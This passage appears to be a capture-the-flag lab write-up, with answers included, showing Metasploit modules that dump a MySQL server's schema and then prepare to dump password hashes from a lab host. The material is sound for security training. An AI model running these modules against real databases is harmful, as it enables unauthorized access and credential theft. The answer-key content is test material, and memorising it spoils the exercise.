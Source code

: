First, let's search for and select the "mysql_schemadump" module. What's the module's full name?

```
msf5 > search mysql_schemadump

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_schemadump                   normal  No     MYSQL Schema Dump
```

`auxiliary/scanner/mysql/mysql_schemadump`

Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?

```
  - TableName: x$waits_global_by_latency
    Columns:
    - ColumnName: events
      ColumnType: varchar(128)
    - ColumnName: total
      ColumnType: bigint(20) unsigned
    - ColumnName: total_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: avg_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: max_latency
      ColumnType: bigint(20) unsigned

[*] 10.10.91.253:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`x$waits_global_by_latency`

Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name?

```
search mysql_hashdump

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/analyze/crack_databases                        normal  No     Password Cracker: Databases
   1  auxiliary/scanner/mysql/mysql_hashdump                   normal  No     MYSQL Password Hashdump


Interact with a module by name or index, for example use 1 or use auxiliary/scanner/mysql/mysql_hashdump
```
